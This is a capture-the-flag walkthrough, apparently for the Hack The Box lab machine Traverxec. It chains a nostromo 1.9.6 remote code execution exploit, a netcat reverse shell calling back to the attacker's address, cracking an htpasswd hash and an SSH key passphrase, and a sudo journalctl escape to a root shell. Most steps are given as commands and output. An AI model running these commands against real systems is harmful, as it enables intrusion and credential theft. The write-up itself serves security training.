

# Traverxec

## Machine Info



## Recon

- nmap

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey:
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-title: TRAVERXEC
|_http-server-header: nostromo 1.9.6
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|storage-misc
Running (JUST GUESSING): Linux 5.X|3.X|4.X (90%), Crestron 2-Series (86%), HP embedded (85%)
OS CPE: cpe:/o:linux:linux_kernel:5.0 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3
Aggressive OS guesses: Linux 5.0 (90%), Linux 3.10 - 4.11 (90%), Linux 3.18 (90%), Linux 3.2 - 4.9 (90%), Linux 5.1 (88%), Crestron XPanel control system (86%), Linux 3.16 (86%), HP P2000 G3 NAS device (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- http service: nostromo 1.9.6

## Foothold

### CVE-2019-16278

- searchsploit

```console
$ searchsploit nostromo 1.9.6
-------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                  |  Path
-------------------------------------------------------------------------------- ---------------------------------
nostromo 1.9.6 - Remote Code Execution                                          | multiple/remote/47837.py
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- **Description**: **directory traversal** in the function **http_verify** in nostromo nhttpd through 1.9.6 allows an attacker to achieve remote code execution via a **crafted** HTTP request.
- **Exp Codes**:
  - [AnubisSec/CVE-2019-16278: A quick python exploit for the Nostromo 1.9.6 remote code execution vulnerability. Simply takes a host and port that the web server is running on. (github.com)](https://github.com/AnubisSec/CVE-2019-16278)
  - [aN0mad/CVE-2019-16278-Nostromo_1.9.6-RCE: Python script to exploit RCE in Nostromo nhttpd <= 1.9.6. (github.com)](https://github.com/aN0mad/CVE-2019-16278-Nostromo_1.9.6-RCE)
  - [jas502n/CVE-2019-16278: Directory transversal to remote code execution (github.com)](https://github.com/jas502n/CVE-2019-16278)
- POC:

```console
$ python exp.py 10.10.10.165 80 id
[+] Connecting to target
[+] Sending malicious payload
HTTP/1.1 200 OK
Date: Thu, 18 Jan 2024 22:37:28 GMT
Server: nostromo 1.9.6
Connection: close


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

- EXP:

```console
$ python exp.py 10.10.10.165 80 'nc 10.10.14.54 1234 -e bash'
[+] Connecting to target
[+] Sending malicious payload
```

```console
$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.10.165] 39172
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@traverxec:/usr/bin$ uname -a
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64 GNU/Linux
www-data@traverxec:/usr/bin$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:43:8c brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.165/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
```

## Privilege Escalation

### www-data -> david

- config file enum
  - AUTH: htpasswd
  - HOMEDIRS: public_www

```console
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
www-data@traverxec:/var/nostromo/conf$ cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

- crack hash value -> cannot login using ssh or su

```console
$ hashcat -m 500 -a 0 hash /usr/share/wordlists/rockyou.txt --show
$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me
```

- referece: [nazgul.ch](https://www.nazgul.ch/dev/nostromo_man.html)

```console
HOMEDIRS
     To serve the home directories of your users via HTTP, enable the homedirs
     option by defining the path in where the home directories are stored,
     normally /home.  To access a users home directory enter a ~ in the URL
     followed by the home directory name like in this example:

           http://www.nazgul.ch/~hacki/

     The content of the home directory is handled exactly the same way as a
     directory in your document root.  If some users don't want that their
     home directory can be accessed via HTTP, they shall remove the world
     readable flag on their home directory and a caller will receive a 403
     Forbidden response.  Also, if basic authentication is enabled, a user can
     create an .htaccess file in his home directory and a caller will need to
     authenticate.

     You can restrict the access within the home directories to a single sub
     directory by defining it via the homedirs_public option.
```

- http://10.10.10.165/~david/index.html = `/home/david/public_www` -> **readable** for www-data


```console
www-data@traverxec:/home/david/public_www$ ls -al
total 16
drwxr-xr-x 3 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area
```

- move gzip file to local host, unzip it, crack ssh's passphrase

```console
$ file backup-ssh-identity-files.tgz
backup-ssh-identity-files.tgz: gzip compressed data, last modified: Fri Oct 25 21:02:59 2019, from Unix, original size modulo 2^32 10240

$ gunzip backup-ssh-identity-files.tgz

$ tar xvf backup-ssh-identity-files.tar
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub

$ ssh -i id_rsa david@$IP
Enter passphrase for key 'id_rsa': -> crack using john

$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 10 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
1g 0:00:00:00 DONE (2024-01-19 07:09) 33.33g/s 5333p/s 5333c/s 5333C/s jonathan..david
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```console
$ ssh -i id_rsa david@$IP
Enter passphrase for key 'id_rsa':
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$ id
uid=1000(david) gid=1000(david) groups=1000(david),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
david@traverxec:~$ uname -a
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64 GNU/Linux
david@traverxec:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:43:8c brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.165/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
```

### david -> root

- enum executable script

```console
david@traverxec:~$ ls -al bin/
total 16
drwx------ 2 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-r-------- 1 david david  802 Oct 25  2019 server-stats.head
-rwx------ 1 david david  363 Oct 25  2019 server-stats.sh
```

- script where sudo command can be executed -> `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service` **NOPASSWD** -> [journalctl | GTFOBins](https://gtfobins.github.io/gtfobins/journalctl/#sudo)

```console
david@traverxec:/home/david/bin# cat server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

`journalctrl` will output to `stdout` if it can fit onto the current terminal, but into less if it can’t. As `-n5` means 5 lines, set terminal height is less than 5 lines and run this command, the journalctrl will output into less, then `!/bin/bash` for priv esca.

```console
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Thu 2024-01-18 17:15:33 EST, end at Thu 2024-01-18 18:21:26 EST. --
Jan 18 17:57:08 traverxec su[13648]: FAILED SU (to david) www-data on pts/0
Jan 18 17:57:28 traverxec su[13650]: pam_unix(su:auth): authentication failure; logname= uid=33 euid=0 tty=pts/0 ruser=www-data rhost=  user=david
!/bin/bash
root@traverxec:/home/david/bin# id
uid=0(root) gid=0(root) groups=0(root)
root@traverxec:/home/david/bin# uname -a
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64 GNU/Linux
root@traverxec:/home/david/bin# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:43:8c brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.165/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
root@traverxec:/home/david/bin#
```


## Exploit Chain

port scan -> nostromo 1.9.6 -> CVE RCE -> www-data shell -> nostromo config -> public_www readable -> find gzip file -> unzip -> ssh private key -> crack passphrase -> ssh and david shell -> executable script with sudo cmd -> sudo journalctrl usage -> less than 5 lines for less output -> root shell
